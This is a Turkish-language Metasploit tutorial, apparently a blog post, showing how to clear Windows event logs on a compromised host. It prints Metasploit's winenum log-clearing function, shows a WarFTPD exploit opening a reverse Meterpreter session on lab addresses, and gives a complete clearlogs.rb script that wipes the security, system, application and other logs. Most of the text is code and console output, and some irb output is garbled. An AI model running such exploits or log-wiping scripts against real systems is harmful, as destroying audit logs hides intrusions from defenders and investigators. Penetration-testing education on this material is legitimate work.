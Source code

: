 ```yaml
---
draft: false

title:  'MSF Log Yönetimi'
date: '2017-06-05T13:21:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı\_winenum\_script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında\_/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb\_adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece\_# Function for clearing all event logs\_kısmıyla ilgileneceğiz." 
 
url:  /tr/msf-log-yonetimi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.
```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs = [
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  ]
  print_status("Clearing Event Logs, this will leave and event 517")
  begin
    evtlogs.each **do** |evl|
      print_status("\tClearing the #{evl} Event Log")
      log = @client.sys.eventlog.open(evl)
      log.clear
      file_local_write(@dest,"Cleared the #{evl} Event Log")
    end
    print_status("All Event Logs have been cleared")
  rescue ::Exception => e
    print_status("Error clearing Event Log: #{e.class} #{e}")

  end
end
```

Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.

Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.
<!-- wp:image {"id":1001,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-00.png" alt="" class="wp-image-1001" /></figure>
<!-- /wp:image -->
Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.

## Bu kısımda deneme yapıyoruz

Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.
```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 2 opened (172.16.104.130:4444 -> 172.16.104.145:1246)
```

Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.
```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
**>>** log = client.sys.eventlog.open('system')
=> #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"=>#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.
```bash
**>>** log.clear
=> #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```
<!-- wp:image {"id":1002,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-01.png" alt="" class="wp-image-1002" /></figure>
<!-- /wp:image -->
Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.

## Tüm Logları Temizleme

Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.
```bash
evtlogs = [
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        ]
print_line("Clearing Event Logs, this will leave an event 517")
evtlogs.each **do** |evl|
        print_status("Clearing the #{evl} Event Log")
        log = client.sys.eventlog.open(evl)
        log.clear
end
print_line("All Clear! You are a Ninja!")
```

Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.
```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1253)

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```

Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.
<!-- wp:image {"id":1003,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-03.png" alt="" class="wp-image-1003" /></figure>
<!-- /wp:image -->
Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
